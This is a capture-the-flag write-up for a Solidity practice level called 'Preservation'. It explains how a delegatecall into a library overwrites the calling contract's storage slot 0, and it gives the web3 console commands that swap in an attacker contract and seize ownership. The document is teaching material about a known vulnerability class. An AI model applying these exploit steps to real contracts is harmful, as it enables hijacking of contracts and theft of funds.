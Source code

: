 # Preservation

# Problem Statement
```
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help
- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for delegatecall to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.
```

# Solution
The key thing to note is when a call is made to `Preservation` contract's `setFirstTime` or `setSecondTime`, it is making a `delegatecall` to the `LibraryContract`'s `setTime` method.<br>
Recall that `deletegatecall` retains the caller's context and in this case it's the context of the call which is the `Preservation` contract.<br>
Also, note that the `LibraryContract`'s `storedTime` variable is in slot 0 and so a call to `setTime` will modify slot 0 of the `Preservation` contract which is the `timeZone1Library` variable.<br>
With this knowledge lets create our attack contract (You can view it at `PreservationSolution.sol`) and deploy it.<br>
Lets first see the value of the `timeZone1Library`
```
await web3.eth.getStorageAt(contract.address, 0, console.log)
// returns '0x0000000000000000000000007dc17e761933d24f4917ef373f6433d4a62fe3c5'
```
Next, call the `Preservation` contract's `setFirstTime` method with the attack contract address:
```
await contract.setFirstTime("0xYOUR_ATTACK_CONTRACT_ADDRESS")
```
Now, verify that you've changed the `Preservation` contract's `timeZone1Library` value at slot 0:
```
await web3.eth.getStorageAt(contract.address, 0, console.log)
// returns '0x000000000000000000000000YOUR_ATTACK_CONTRACT_ADDRESS'
```
Lastly, we need to take ownership with our externally owned account (EOA), so just run the following:
```
await contract.setFirstTime("1") // doesn't matter what input
```
You can see now you are the owner:
```
await contract.owner()
```

We've completed this lesson!

# Key Learnings
- When `delegatecall` is used make sure to understand if it will unintentionally modify storage.

